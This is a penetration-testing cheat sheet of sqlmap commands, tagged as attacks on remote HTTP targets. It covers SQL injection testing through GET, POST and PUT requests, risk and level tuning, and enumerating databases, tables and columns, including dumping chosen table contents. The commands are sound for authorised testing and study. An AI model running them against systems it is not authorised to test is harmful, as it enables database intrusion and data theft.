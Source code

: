 ## SQLi - sqlmap without user input
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --batch
```

## SQLi - sqlmap POST
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap '<targetURL>' --data '<parameters=value&>'
```

## SQLi - sqlmap w request
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -r <reqFile>
```

## SQLi - sqlmap PUT
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u <targetURL> --data='<parameters=value&>' --method PUT
```

## SQLi - sqlmap prefix & suffix
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --prefix="<prefix>" --suffix="<suffix>"
```

## SQLi - sqlmap risk&level
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u <targetURL> -v 3 --level=<0-5> --risk=<0-5>
```

## SQLi - sqlmap basic enum
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --banner --current-user --current-db --is-dba
```

## SQLi - sqlmap tables enum
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --tables -D <database>
```

## SQLi - sqlmap table/row enum
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
sqlmap -u "<targetURL>" --dump -T <table> -D <database> -C <column1,column2>
```
